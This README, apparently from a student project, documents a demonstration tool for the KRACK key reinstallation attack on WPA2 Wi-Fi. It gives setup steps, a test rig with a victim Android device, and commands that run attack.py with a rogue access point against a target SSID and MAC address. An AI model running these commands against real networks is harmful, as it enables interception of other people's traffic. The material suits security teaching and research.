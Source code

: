 # Key Reinstallation Attack
## Presented by Ron, Afik, Shmuel & Avigael

### Demonstration:
![UnderAttack](media/demo.gif)

## Prerequisites

* Kali Linux, required dependencies:
  ```
  sudo apt update && sudo apt upgrade
  sudo apt install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome
  ```
* Python 2.7 - Install pip2 as well
* Disable WiFi and run:
  ```
  sudo rfkill unblock wifi
  ```

## Python Packages

```
pip install "scapy == 2.3.3"
pip install mitm_channel_based, pyfiglet, termcolor
```

## Tested Environment

1. `Attacking Computer`: Xiaomi Redmibook 14 
2. `OS`: Kali Linux Live CD
3. `Injection Network Adapter`: TP-Link TL-WN722N V1
4. `Eth Internet Adapter`: Samsung Galaxy S9 / iPhone 8 serves as an ethernet router via usb thethering
5. `Victim Host Network`: Samsung Galaxy S9 Hotspot
6. `Victim Device`: Samsung Galaxy J7 running Android 6.0.1

## Tool usage
1. First disable hardware encryption:
  ```
  sudo ./disable-hwcrypto.sh
  ```
2. Enter the krackattack folder and run the attack from this path:
  ```
  cd krackattack
  $sudo ./attack.py wlan1 wlan0 eth0 "Shabab" -t 88:83:22:82:93:CC
  ```
  or with PCAP output:
  ```
  sudo ./attack.py wlan1 wlan0 eth0 "Shabab" -t 88:83:22:82:93:CC -p "test.pcap"
  ```
  * `wlan1`: interface that listens and injects packets on the real channel
  * `wlan0`: interface that runs the Rogue AP
  * `eth0`: interface in which is provided internet access
  * `"Shabab"`: SSID of the target network
  * `-t 00:21:5d:ea:fe:be`: MAC address of the attacked device